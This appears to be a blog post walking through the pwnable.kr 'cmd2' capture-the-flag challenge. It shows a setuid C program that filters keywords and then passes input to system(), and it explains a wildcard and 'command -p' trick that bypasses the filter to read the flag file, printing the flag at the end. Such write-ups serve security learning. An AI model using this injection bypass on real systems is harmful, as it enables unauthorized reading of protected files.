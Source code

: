 ```yaml
---
layout:     post
title:      "Pwnable.kr - cmd2"
description: "Once again we're going to exploit simple command filter."
date:       2018-05-28 0:00:00
author:     "W3ndige"
permalink: /:title/
category: 'Pwnable'
---
```


Start by connecting to the server, with the password from the previous challenge.

{% highlight bash %}
[w3ndige@main ~]$ ssh cmd2@pwnable.kr -p2222
cmd2@pwnable.krs password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Mon May 28 01:22:41 2018 from 203.229.187.102
cmd2@ubuntu:~$ ls -la
total 40
drwxr-x---  5 root cmd2     4096 Oct 23  2016 .
drwxr-xr-x 87 root root     4096 Dec 27 23:17 ..
d---------  2 root root     4096 Jul 14  2015 .bash_history
-r-xr-sr-x  1 root cmd2_pwn 8794 Dec 21  2015 cmd2
-rw-r--r--  1 root root      586 Dec 21  2015 cmd2.c
-r--r-----  1 root cmd2_pwn   30 Jul 14  2015 flag
dr-xr-xr-x  2 root root     4096 Jul 21  2015 .irssi
drwxr-xr-x  2 root root     4096 Oct 23  2016 .pwntools-cache
{% endhighlight %}

Now we can view the source code of the challenge.

{% highlight c %}
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
{% endhighlight %}

As we can see, logic of the challenge is mostly the same as in the previous one. But in addition, we have more filters to bypass - especially `\` character which was used in our previous exploit.

Firstly, I've noticed that quite easy way to get to the flag is to use an wildcard. Something like `cat fla*` will allow us to view the flag, as it's the only file with such a name. But how to bypass the slash?

After that let's search how exactly commands are executed with `system()` command. From [man pages](http://man7.org/linux/man-pages/man3/system.3.html), we can see that this command uses `sh` to execute a command in this particular way `execl("/bin/sh", "sh", "-c", command, (char *) 0);`

Now we can resaerch  information about `sh` in order to find some help. Another [man page](https://www.freebsd.org/cgi/man.cgi?query=sh&sektion=&n=1) gives us something interesting. Command `command [-p] [utility [argument ...]]` with `-p` option allows us to search using a default value of PATH. It is guaranteed to find all of the standard utilities.

{% highlight bash %}
cmd2@ubuntu:~$ ./cmd2 "command -p cat f*"
command -p cat f*
FuN_w1th_5h3ll_v4riabl3s_haha
{% endhighlight %}
